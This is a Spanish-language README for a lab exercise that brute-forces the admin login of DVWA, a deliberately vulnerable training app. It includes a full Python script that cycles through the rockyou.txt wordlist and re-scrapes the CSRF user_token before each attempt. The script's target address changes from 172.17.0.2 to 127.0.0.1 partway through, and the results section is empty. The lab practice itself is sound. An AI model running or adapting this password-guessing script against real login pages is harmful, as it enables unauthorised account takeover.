


# Fuerza Bruta en DVWA - Práctica

## 📋 Descripción

Esta práctica consiste en realizar un ataque de fuerza bruta a la aplicación **DVWA (Damn Vulnerable Web App)** para romper la autenticación del módulo de **Brute Force** utilizando un script en Python y el diccionario `rockyou.txt`.

## 🛠️ Entorno de trabajo

- **Sistema Operativo**: Linux Mint 21
- **Aplicación objetivo**: DVWA (Damn Vulnerable Web App)
- **IP DVWA**: `172.17.0.2` (localhost)
- **Lenguaje del script**: Python 3
- **Herramientas utilizadas**:
  - Python 3
  - Librerías `requests` y `BeautifulSoup`
  - Diccionario `rockyou.txt`

## ⚙️ Configuración inicial

- **Estado de seguridad de DVWA**: `High`
- **Configuración de la base de datos**: Correcta
- **Observaciones**: Se requiere el token `user_token` en cada petición.



## 🧩 Script de Fuerza Bruta

El script realiza las siguientes acciones:
- Establece una sesión usando cookies para seguridad alta.
- Obtiene dinámicamente el `user_token` necesario para cada intento.
- Prueba contraseñas del diccionario `rockyou.txt` una a una.
- Detecta el éxito cuando encuentra el mensaje `Welcome`.

Fragmento del script:

```python
import requests
from bs4 import BeautifulSoup
from requests.structures import CaseInsensitiveDict

url = 'http://172.17.0.2/vulnerabilities/brute/'
headers = CaseInsensitiveDict()
headers["Cookie"] = "security=high; PHPSESSID=rqs9b9elru16hltg6gvagkek195"

r = requests.get(url, headers=headers)
r1 = r.content
soup = BeautifulSoup(r1, 'html.parser')
user_token = soup.findAll('input', attrs={'name': 'user_token'})[0]['value']

with open('rockyou.txt', 'rb') as f:
    for i in f.readlines():
        i = i[:-1]
        try:
            al = i.decode()
        except UnicodeDecodeError:
            print(f"can't decode {i}")
            continue

        r = requests.get(f'http://127.0.0.1/vulnerabilities/brute/?username=admin&password={al}&Login=Login&user_token={user_token}#', headers=headers)
        r1 = r.content
        soup1 = BeautifulSoup(r1, 'html.parser')
        user_token = soup1.findAll('input', attrs={'name': 'user_token'})[0]['value']
        
        print(f'checking {al}')
        if 'Welcome' in r.text:
            print(f'LoggedIn: username: admin , password:{al}   ===found===')
            break
```
## ✅ Resultado

El ataque fue exitoso: se encontró la combinación correcta de usuario y contraseña.

Resultado obtenido en la ejecución:

